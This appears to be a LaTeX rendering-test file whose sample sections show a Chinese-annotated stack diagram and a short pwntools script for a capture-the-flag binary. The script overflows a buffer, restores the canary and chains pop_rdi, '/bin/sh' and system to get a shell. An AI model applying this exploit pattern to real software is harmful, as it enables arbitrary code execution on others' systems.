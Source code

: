 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\subsection{三、ASCII
圖表（含中文與製表符號）}\label{ux4e09ascii-ux5716ux8868ux542bux4e2dux6587ux8207ux88fdux8868ux7b26ux865f}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{   高位址}
\NormalTok{   ┌──────────────────────────────┐}
\NormalTok{   │  return address（8 bytes）    │  ← 我們要覆寫的目標}
\NormalTok{   ├──────────────────────────────┤}
\NormalTok{   │  saved rbp（8 bytes）        │}
\NormalTok{   ├──────────────────────────────┤}
\NormalTok{   │  canary（8 bytes）           │  ← 最靠近 rbp，最先被撞到}
\NormalTok{   ├──────────────────────────────┤}
\NormalTok{   │  buf[0x30]                   │  ← rbp{-}0x40}
\NormalTok{   └──────────────────────────────┘}
\NormalTok{   低位址}
\end{Highlighting}
\end{Shaded}

\subsection{四、程式碼區塊}\label{ux56dbux7a0bux5f0fux78bcux5340ux584a}

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\NormalTok{context.arch }\OperatorTok{=} \StringTok{\textquotesingle{}amd64\textquotesingle{}}
\NormalTok{p }\OperatorTok{=}\NormalTok{ process(}\StringTok{\textquotesingle{}./chal\textquotesingle{}}\NormalTok{)}
\NormalTok{payload  }\OperatorTok{=} \StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*} \BaseNTok{0x38} \OperatorTok{+}\NormalTok{ p64(canary) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{) }\OperatorTok{+}\NormalTok{ p64(pop\_rdi) }\OperatorTok{+}\NormalTok{ p64(binsh) }\OperatorTok{+}\NormalTok{ p64(system)}
\NormalTok{p.sendline(payload)}
\BuiltInTok{print}\NormalTok{(}\StringTok{\textquotesingle{}這一行很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長很長\textquotesingle{}}\NormalTok{)  }\CommentTok{\# 測試過長行的換行行為}
\end{Highlighting}
\end{Shaded}

\subsection{五、清單}\label{ux4e94ux6e05ux55ae}
\end{document}
